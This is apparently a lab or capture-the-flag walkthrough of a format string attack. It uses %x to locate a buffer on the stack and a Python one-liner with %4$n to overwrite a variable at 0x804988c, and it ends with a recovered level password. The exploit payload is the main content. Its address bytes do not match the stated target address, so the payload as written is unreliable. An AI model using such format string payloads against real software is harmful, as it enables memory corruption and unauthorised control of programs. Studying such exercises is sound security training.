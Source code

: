 
# Walkthrough

> **The Goal:** manipulate `printf()` function to changing the value of the variable `m` at the address 0x804988c<br/>
![Alt Addr m](m_addr.png)

1. ## Fnd the position of a buffer on the stack using the printf
use the %x format string vulnerability to print memory address on the stack 
I give printf the follow string `aaaaaa %x %x %x %x %x %x` the %x it telling to printf to print memory content
Buffer content `aaaaaa` is at the 4th position `61616161`.
![Alt Buffer position](buffer_position.png)


## 2. Modify `m` value s<br/>
The modifier %n will write the number of bytes specified in the choosen address.<br/>
The command `python -c 'print "\x8c\x95\x08\x08" + "\x90" * 60 + "%4$n"' > /tmp/payload` <br/>
creates a format string attack that aims to modify a variable using the %n<br/> 
The `%4$n` specifier tells printf to treat the argument at the  4th position as an address to write the number of characters printed<br/>

3. Load Payload 
![Alt Payload](payload_3.png)
 Password:`b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`

